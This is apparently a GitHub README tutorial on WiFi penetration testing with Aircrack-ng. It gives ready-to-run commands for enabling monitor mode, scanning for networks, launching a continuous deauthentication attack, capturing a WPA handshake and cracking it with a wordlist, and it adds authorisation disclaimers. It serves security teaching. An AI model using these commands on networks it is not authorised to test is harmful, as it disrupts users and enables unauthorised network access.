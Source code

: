 # WiFi Penetration Testing with Aircrack-ng

This guide provides a step-by-step process for performing WiFi penetration testing using Aircrack-ng to capture and crack WPA/WPA2 handshakes.

## Prerequisites
- Linux system (Kali Linux recommended)
- WiFi adapter that supports monitor mode
- Aircrack-ng suite installed (`sudo apt install aircrack-ng`)
- Wordlist for password cracking

## Setup WiFi Adapter (Monitor Mode)

1. Check current mode:
   ```bash
   iwconfig
   ```
   (Look for mode=managed)

2. Kill interfering processes:
   ```bash
   sudo airmon-ng check kill
   ```

3. Start monitor mode:
   ```bash
   sudo airmon-ng start wlan0
   ```
   (Replace `wlan0` with your interface name)

4. Verify monitor mode:
   ```bash
   iwconfig
   ```
   (Should show mode=monitor and new interface name like wlan0mon)

## Scan for Nearby Networks

```bash
sudo airodump-ng wlan0mon
```
(Replace `wlan0mon` with your monitor interface)

Note down:
- BSSID (MAC address of target AP)
- CH (channel number)
- ESSID (network name)

## Capture Handshake

```bash
sudo airodump-ng --bssid <BSSID> -c <CH> -w <output_file> wlan0mon
```
Example:
```bash
sudo airodump-ng --bssid 00:11:22:33:44:55 -c 6 -w capture wlan0mon
```

This will create a `.cap` file. Wait until you see `[WPA handshake: <BSSID>]` in the top right corner.

## Accelerate Handshake Capture (Deauth Attack)

In a new terminal:
```bash
sudo aireplay-ng --deauth 0 -a <BSSID> -c <client_MAC> wlan0mon
```
(Use 0 for continuous deauth, or specify a number of packets)

## Check for Captured Handshake

```bash
ls
```
Look for `.cap` file (e.g., `capture-01.cap`)

## Crack the Handshake

```bash
aircrack-ng <capture_file.cap> -w <wordlist_path>
```
Example:
```bash
aircrack-ng capture-01.cap -w /usr/share/wordlists/rockyou.txt
```

## Cleanup

1. Stop monitor mode:
   ```bash
   sudo airmon-ng stop wlan0mon
   ```

2. Restart network manager:
   ```bash
   sudo systemctl start NetworkManager
   ```

## Legal Disclaimer

This guide is for educational and authorized penetration testing purposes only. Unauthorized access to computer networks is illegal. Always obtain proper authorization before testing any network.

## Wordlists

Popular wordlists for password cracking:
- rockyou.txt (included in Kali Linux)
- SecLists (https://github.com/danielmiessler/SecLists)
- CrackStation wordlist (https://crackstation.net/crackstation-wordlist-password-cracking-dictionary.htm)

## Legal & Ethical Notice
- This guide is for **educational purposes only**.
- Unauthorized WiFi hacking is **illegal** in most countries.
- Only test networks you own or have **explicit permission** to audit.
- The author is not responsible for misuse of this information.

Happy (Ethical) hacking! 😊
